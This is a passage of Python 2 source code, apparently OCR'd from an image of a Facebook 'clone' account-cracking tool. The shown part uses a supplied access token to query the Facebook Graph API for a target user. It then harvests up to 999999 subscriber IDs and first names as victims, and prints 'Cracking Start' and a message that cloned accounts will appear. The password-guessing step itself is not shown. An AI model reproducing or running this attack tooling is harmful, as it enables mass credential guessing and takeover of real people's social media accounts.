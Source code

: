 			r = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token, headers=header)

			q = json.loads(r.text)

			os.system("clear")

			print banner

			print("[!] Target User : "+q["name"])

		except KeyError:

			print("\tInvalid id link")

			print("")

			raw_input(" Press enter to back")

			crack()

		r = requests.get("https://graph.facebook.com/"+idt+"/subscribers?access_token="+token+"&limit=999999", headers=header)

		z = json.loads(r.text)

		for i in z["data"]:

			uid = i["id"]

			na = i["name"]

			nm = na.rsplit(" ")[0]

			id.append(uid+"|"+nm)

	elif select =="0":

	    menu()

	else:

		print("")

		print("\033[1;91mPlease Select A Valid Option").center(50)

		print("")

		time.sleep(3)

		crack_select()

	print("[!] Total User IDs :\033[1;92m "+str(len(id)))

	time.sleep(0.05)

	print("[!]\033[1;95m Cracking Start...")

	time.sleep(0.05)

	print("[!]\033[1;95m Plz wait clone account will be appear here\033[1;0m")

	time.sleep(0.05)

	print(50*"-")
